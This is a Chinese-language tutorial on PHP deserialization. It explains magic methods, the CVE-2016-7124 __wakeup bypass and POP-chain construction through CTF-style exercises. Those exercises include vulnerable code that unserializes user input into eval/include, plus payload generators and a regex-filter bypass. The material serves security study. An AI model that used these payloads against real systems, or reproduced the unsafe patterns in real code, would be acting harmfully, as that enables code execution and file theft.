



# php反序列化

## 访问修饰符

访问修饰符| 方法 | 例（从 `pulibc` 改为对应值）
:-:|-|-
`public`|成员名|`s:7:"payl0ad"` -> `s:7:"payl0ad"`
`private`|%00类名%00成员名|`s:3:"sec"` -> `s:13:"%00class002%00sec"`
`protected`|%00*%00成员名|`s:4:"what"` -> `s:7:"%00*%00what"`

## 魔术方法

***魔术方法在特定条件下自动调用相关方法，最终导致触发代码***

一个预定义好的，在特定情况下自动触发的行为方法。

反序列化漏洞的成因:
反序列化过程中，`unserialize()`接收的值(字符串)可控通过更改这个值(字符串)，得到所需要的代码
**通过调用方法，触发代码执行**。





### __construct()

构造函数__construct()，在实例化一个对象的时候，首先会去自动执行该方法

```php
<?php
class User {
    public $username;
    public function __construct($username) {
        $this->username = $username;
        echo "触发了构造函数1次" ;
    }
}
$test = new User("benben");    //实例化对象时触发构造函数__construct()
$ser = serialize($test);       //在序列化和反序列化过程中不会触发构造函数
unserialize($ser);
?>
```

### __destruct()

析构函数__destruct()，当对象被销毁的时候，会自动执行该方法

触发时机:反序列化`unserialize()`之后

```php
<?php
highlight_file(__FILE__);
class User {
    public function __destruct()
    {
        echo "触发了析构函数1次"."<br />" ;
    }
}
$test = new User("benben");//第一次触发
$ser = serialize($test);
unserialize($ser);//第二次触发

?>
```

### __sleep()

在序列化过程中，如果存在sleep()方法，先执行sleep()方法，再执行序列化

触发时机:序列化`serialize()` 之前
功能:对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性。
参数:`return array`
返回值:`username,nickname`

```php
<?php
highlight_file(__FILE__);
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    public function __construct($username, $nickname, $password)    {
        $this->username = $username;
        $this->nickname = $nickname;
        $this->password = $password;
    }
    public function __sleep() {
        return array('username', 'nickname');
    }
}
$user = new User('a', 'b', 'c');
echo serialize($user);
?>

输出：
O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}
```

在这个例子中，`sleep()`方法返回了`username`和`nickname`两个属性，
所以只序列化这两个属性，
而`password`属性被过滤掉了。

### __wakeup()

在反序列化过程中，如果存在`__wakeup()`方法，先执行`__wakeup()`方法，再执行反序列化

触发时机:反序列化`unserialize()`之前

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        $this->password = $this->username;
    }
}
$user_ser = 'O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}';
var_dump(unserialize($user_ser));
?>

输出：
object(User)#1 (4) { ["username"]=> string(1) "a" ["nickname"]=> string(1) "b" ["password":"User":private]=> string(1) "a" ["order":"User":private]=> NULL }
```

#### __wakeup()绕过

CVE-2016-7124

版本：

- PHP5 < 5.6.25
- PHP7 < 7.0.10

漏洞产生原因:
如果存在 `__wakeup()`方法，调用`unserilize()`方法前则先调用 `__wakeup`方法，
但是序列化字符串中`表示对象属性个数的值`大于 `真实的属性个数`时，会跳过`wakeup()`的执行

```php
0:4:"test":2:{s:2:"v1";s:6:"benben";s:2:"v2";s:3:"123";}
//修改属性个数 2 -> 3
0:4:"test":3:{s:2:"v1";s:6:"benben";s:2:"v2";s:3:"123";}
```

成员属性个数值为3
但后面实际只有`v1`和`v2`
2个成员属性

##### 例题

```php
<?php
error_reporting(0);
class secret{
    var $file='index.php';

    public function __construct($file){
        $this->file=$file;
    }

    function __destruct(){
        include_once($this->file);
        echo $flag;
    }

    function __wakeup(){
        $this->file='index.php';
    }
}
$cmd=$_GET['cmd'];
if (!isset($cmd)){
    highlight_file(__FILE__);
}
else{
    if (preg_match('/[oc]:\d+:/i',$cmd)){
        echo "Are you daydreaming?";
    }
    else{
        unserialize($cmd);
    }
}
//sercet in flag.php
?>
```

```php
<?php
error_reporting(0);
class secret{
    var $file='flag.php';
}

$secret = new secret();
echo serialize($secret);
//O:6:"secret":1:{s:4:"file";s:8:"flag.php";}

$a ='O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}';
//+6绕过正则匹配
echo urlencode($a);
```

### __toString()

触发时机:当对象作为字符串调用时

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $benben = "this is test!!";
         public function __toString()
         {
             return '格式不对，输出不了!';
          }
}
$test = new User() ;
print_r($test);  //正常输出
echo "<br />";
echo $test;  //对象被作为字符串输出
?>

输出：
User Object ( [benben] => this is test!! )
格式不对，输出不了!
```

### __invoke()

触发时机:当对象作为函数调用时
对象后面加个`()`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $benben = "this is test!!";
         public function __invoke()
         {
             echo  '它不是个函数!';
          }
}
$test = new User() ;
echo $test ->benben;
echo "<br />";
echo $test() ->benben;
?>

输出：
this is test!!
它不是个函数!
```

### __call()

触发时机:当对象调用不存在的方法时
返回值：调用的不存在的**方法的名称**和**参数**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public function __call($arg1,$arg2)
    {
        echo "$arg1,$arg2[0]";
          }
}
$test = new User() ;
$test -> callxxx('a');
?>

输出：
callxxx,a
```

在这个例子中，我们调用了不存在的方法`callxxx`和参数`a`，输出了`callxxx,a`

### __callStatic()

触发时机:静态调用或调用成员常量时使用的方法不存在
返回值：调用的不存在的**方法的名称**和**参数**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public function __callStatic($arg1,$arg2)
    {
        echo "$arg1,$arg2[0]";
          }
}
$test = new User() ;
$test::callxxx('a');    //与__call() 的区别
?>

输出:
callxxx,a
```

### __get()

触发时机:调用的成员属性不存在
返回值:不存在的**成员属性的名称**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public $var1;
    public function __get($arg1)
    {
        echo  $arg1;
    }
}
$test = new User() ;
$test ->var2; //调用不存在的var2
?>

输出:
var2
```

**把不存在的属性名称`var2`赋值给`$arg1`**

### __set()

触发时机:给不存在的成员属性赋值
返回值:不存在的**成员属性的名称**和**赋值**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public $var1;
    public function __set($arg1 ,$arg2)
    {
        echo  $arg1.','.$arg2;
    }
}
$test = new User() ;
$test ->var2=1;
?>

输出:
var2,1
```

在这个例子中，我们把不存在的属性`var2`赋值为1，触发了`__set()`方法

`var2`赋值给`$arg1`，`1`赋值给`$arg2`

### __isset()

触发时机:对**不可访问属性**使用`isset()`或`empty()`时，`_isset()`会被调用。
返回值:不存在的**成员属性的名称**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __isset($arg1 )
    {
        echo  $arg1;
    }
}
$test = new User() ;
isset($test->var);
empty($test->var);
?>

输出：
var
var
```

在这个例子中，尝试在`isset()`和`empty()`中外部访问`private`属性`var`，
`__isset()`会被调用，将`var`作为参数传入给`$arg1`

注意，`var`改成不存在的变量比如`var1`，效果相同

### __unset()

和__isset()差不多

```php

<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __unset($arg1 )
    {
        echo  $arg1;
    }
}
$test = new User() ;
unset($test->var);
?>

输出:
var
```

### __clone()

触发时机:当使用 `clone` 关键字拷贝完成一个对象后，新对象会自动调用定义的魔术方法`_clone()`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __clone( )
    {
        echo  "__clone test";
          }
}
$test = new User() ;
$newclass = clone($test)
?>

输出:
__clone test
```

## pop链构造例题

### 简单例题1

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class index {
    private $test;
    public function __construct(){
        $this->test = new normal();
    }
    public function __destruct(){
        $this->test->action();
    }
}
class normal {
    public function action(){
        echo "please attack me";
    }
}
class evil {
    var $test2;
    public function action(){
        eval($this->test2);
    }
}
unserialize($_GET['test']);
?>
```

#### 方法1：在方法内构造

```php
<?php

class index {
    private $test;
    public function __construct() {
        $this->test = new evil();
    }
}

class evil {
    var $test2 = "phpinfo();";

}

$index = new index();
$serialize =  serialize($index);
echo $serialize;
echo urlencode($serialize);
```

#### 方法2：在方法外修改

```php
<?php
class index {
    var $test;
}
class evil {
    var $test2;
}

$evil = new evil();
$evil -> test2 = "phpinfo();";
$index = new index();
$index -> test = $evil;

$serialize =  serialize($index);
echo $serialize;
echo urlencode($serialize);
```

输出：

```php
O:5:"index":1:{s:4:"test";O:4:"evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```

注意修改**访问修饰符**
public -> private

```php
O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```

### 简单例题2：魔法方法

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class fast {
    public $source;
    public function __wakeup(){
        echo "wakeup is here!!";
        echo  $this->source;
    }
}
class sec {
    var $benben;
    public function __tostring(){
        echo "tostring is here!!";
    }
}
$b = $_GET['benben'];
unserialize($b);
?>
```

触发`__tostring()`方法

payload:

```php
<?php
class fast {
    public $source;
    public function __construct(){
        $this->source = new sec();
    }
}
class sec {
    var $benben;
}

$test = new fast();
echo serialize($test);
```

### 简单例题3

```php
<?php
//flag is in flag.php
highlight_file(__FILE__);
error_reporting(0);
class Modifier {
    private $var;
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
?>
```

思路：

1. `Modifier -> $var = "flag.php"`
2. 使用`Modifier`的`__invoke()`，从而触发1.
3. `Test --> $p = Modifier`，使用`Test`的`__get()`，将`Modifier`作为函数调用，从而触发2.的Modifier`__invoke()`
4. 调用不存在的Test成员，从而触发3.Test的`__get()`
5. Show --> $str = Test,使用__toString()，触发4.调用不存在的Test成员
6. Show --> $source = Show，使用__wakeup()方法触发5.(注意__wakeup()方法调用自己`\$Show`)

```php
<?php
class Modifier {
    private $var = "flag.php";
}

class Show{
    public $source;
    public $str;

}

class Test{
    public $p;
}

$Modifier = new Modifier();
$Test = new Test();
$Test->p = $Modifier;
$Show = new Show();
$Show -> str = $Test;
$Show ->source = $Show;

echo urlencode(serialize($Show));

```
